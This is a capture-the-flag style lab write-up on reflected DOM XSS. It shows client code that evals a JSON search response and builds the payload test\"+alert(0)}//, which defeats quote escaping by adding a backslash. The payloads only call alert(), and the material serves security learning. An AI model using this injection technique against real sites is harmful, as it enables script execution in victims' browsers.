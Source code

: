 # Lab: Reflected DOM XSS

> Lab Objective: create an injection that calls the `alert()` function.

- Firstly, Enter simple input like this `test'"><` in search functionality, then search for the input in the Source Code.

  > In order to know which character from those `'"><` are either HTML-Encoded, Stripped, etc.

- When reviewing the source code, I didn't find the input I entered, instead the application calls a JS Code, then calls a function from that code.
  ![1st Screenshot](./Photos/1.png)

- When viewing this JS Code, I see that he uses `eval()` function with is unsafe, therefore I'll try to exploit it.

- The Code Snippet:
  - The rest of the code, he just set Display search results using DOM Methods.
  - Code Snippet Explanation:
    - Creates an `XMLHttpRequest` to fetch data asynchronously
    - Sets up a handler that:
      - Checks if the request is complete (`readyState == 4`) and successful (`status == 200`)
      - Evaluates the response text as JavaScript to create `searchResultsObj`
      - Calls `displaySearchResults()` with this object
    - Opens a `GET` request to `'search-results'` + the current URL's query string
    - Sends the request.

```js
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function () {
  if (this.readyState == 4 && this.status == 200) {
    eval("var searchResultsObj = " + this.responseText);
    displaySearchResults(searchResultsObj);
  }
};
xhr.open("GET", path + window.location.search);
xhr.send();
```

- The response returned from the request sent to `'search-results'` is a JSON Object:

```json
{ "results": [], "searchTerm": "test'\"><" }
```

- Since the response text is in json format in an `eval` function, I would try to craft my payload to match one of these two lines code: (both lines of code will cause an `alert()`)

```js
eval('let obj = { results: [], searchTerm: "test"-alert(1)};');
eval('let obj = { results: [], searchTerm: "test"+alert(1)};');
```

- The double quotes is escaped but when You add a backslash to cancel the escaping (e.g., `test\"`) it works successfully.
  ![2nd Screenshot](./Photos/2.png)
  ![3rd Screenshot](./Photos/3.png)
  ![4th Screenshot](./Photos/4.png)

- Therefore, in order to conduct one of the two forms stated previously, try this payload: `test\"+alert(0)}//`

  - Which cause the response to be in that form:

  ```json
  {"results":[],"searchTerm":"test\\"+alert(0)}//"}
  ```

  - Causing the `alert()` function to execute.
    ![5th Screenshot](./Photos/5.png)

- Finally, the lab is solved.
  ![6th Screenshot](./Photos/6.png)

---

## Explanation

- Why the following code snippets work?

```js
eval('let obj = { results: [], searchTerm: "test"-alert(1)};');
eval('let obj = { results: [], searchTerm: "test"+alert(1)};');
```

- In the first example:

```json
{ "searchTerm": "test"-alert(1) }
```

- The `-` triggers numeric conversion:

  - `"test"` becomes `NaN`
  - `alert(1)` executes (returns `undefined`)
  - Result: `NaN - undefined` → `NaN` (but `alert` runs first)

- In the second example:

```json
{ "searchTerm": "test"+alert(1) }
```

    - The `+` concatenates after alert executes:
    - `alert(1)` runs (returns `undefined`)
    - `"test" + undefined` → `"testundefined"`

---

